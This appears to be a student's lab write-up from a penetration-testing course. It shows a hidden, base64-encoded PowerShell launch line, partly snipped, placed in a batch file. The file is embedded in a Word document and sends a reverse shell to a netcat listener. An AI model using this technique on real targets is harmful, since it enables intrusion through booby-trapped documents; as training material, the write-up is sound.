


### 13.3.3.1 Exercise
#### 1. Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.

- Created batch file with Powershell command from the HTA excercise

  ```powershell
  START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0AC
  ------SNIPPED------
  BlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==
  ```

- Embedded batch file into Word doc
  

- Started netcat listener & double-clicked embedded file to get reverse shell:
  